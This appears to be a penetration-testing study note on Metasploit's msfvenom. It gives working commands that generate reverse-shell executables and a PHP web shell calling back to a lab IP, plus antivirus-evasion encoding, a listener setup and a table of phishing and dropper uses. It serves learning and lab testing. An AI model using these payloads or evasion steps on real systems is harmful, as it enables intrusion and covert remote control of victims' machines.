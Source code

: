 **`msfvenom`** is a powerful tool within the Metasploit Framework used to **generate payloads**, **encode them**, and **package them** into various formats (e.g., executables, scripts, shellcode). It is commonly used during **exploitation** and **post-exploitation** phases of penetration testing.

---

## 🎯 Purpose of `msfvenom`

- Generate **custom payloads** for specific platforms (Windows, Linux, Web)
- Create **reverse shells**, **bind shells**, and **Meterpreter sessions**
- Embed payloads into files (EXE, DLL, shellcode, etc.)
- Bypass basic antivirus through **encoding** or **obfuscation**
- Test exploit delivery and payload behavior

---

## 🧠 `msfvenom` Syntax

```bash
msfvenom -p <payload> LHOST=<IP> LPORT=<port> -f <format> -o <output_file>
```

|Flag|Description|
|---|---|
|`-p`|Payload to generate|
|`LHOST`|Local (attacker) IP address|
|`LPORT`|Port to connect back to|
|`-f`|Output format (`exe`, `elf`, `raw`, `c`, etc.)|
|`-o`|Output file name (optional)|
|`-e`|Encoder to use (optional)|
|`-b`|Bad characters to avoid|
|`--platform`|Target platform (e.g., Windows, Linux)|
|`--arch`|Target architecture (x86, x64)|

---

## 📦 Common Payloads

|Payload Name|Description|
|---|---|
|`windows/meterpreter/reverse_tcp`|Meterpreter session over reverse TCP|
|`windows/shell/reverse_tcp`|Basic reverse shell|
|`linux/x86/meterpreter_reverse_tcp`|Linux Meterpreter payload|
|`cmd/unix/reverse_bash`|Bash reverse shell|
|`php/meterpreter_reverse_tcp`|PHP script with Meterpreter|
|`java/meterpreter/reverse_tcp`|Java-based payload|

---

## 🛠 Examples

### 1. Windows Reverse Shell EXE
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f exe -o shell.exe
```

### 2. Linux Reverse Shell ELF
```
msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f elf > shell.elf
chmod +x shell.elf
```

### 3. PHP Web Shell Payload
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f raw > shell.php
```

### 4. Inject Shellcode into C Source
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f c
```

## 🔐 Encoding Payloads

To obfuscate and evade basic AV:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f exe -e x86/shikata_ga_nai -i 5 -o encoded.exe
```

|Flag|Description|
|---|---|
|`-e`|Encoder (`x86/shikata_ga_nai`, `generic/none`)|
|`-i`|Number of iterations|

> 🔥 **Note:** Encoding ≠ encryption. It helps evade **static signature detection**, not sandboxing.

---

## ⚠️ Bad Characters

Avoid problematic characters (e.g., null bytes, newlines):
```
-b '\x00\x0a\x0d'
```

## 🎯 Listener Setup (Metasploit Console)
```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.14.2
set LPORT 4444
exploit
```

## 📘 Real-World Use Cases

|Use Case|Payload & Format|
|---|---|
|Phishing attachment|`.exe`, `.docm` with macro downloader|
|Web shell injection|`.php` or `.jsp` script|
|Reverse shell in buffer overflow|Raw shellcode (`-f c`, `-f python`)|
|Malware dropper simulation|Encoded payload for AV evasion|

---

## 🔗 Related Topics

- [[Metasploit Framework]]
- [[Post-Exploitation]]
- [[Privilege Escalation]]
- [[Payload Delivery Techniques]]
- [[Antivirus Evasion]]

---

## 🏷 Suggested Tags

#msfvenom #payloads #meterpreter #post_exploitation #reverse_shell #red_team #exploit_dev

---

## ✅ To Do

-  Create test payloads for Windows, Linux, PHP, and macros
-  Test payload execution in isolated lab environment
-  Combine payloads with delivery techniques (HTA, macro, DLL)
-  Measure detection rate using VirusTotal or sandbox
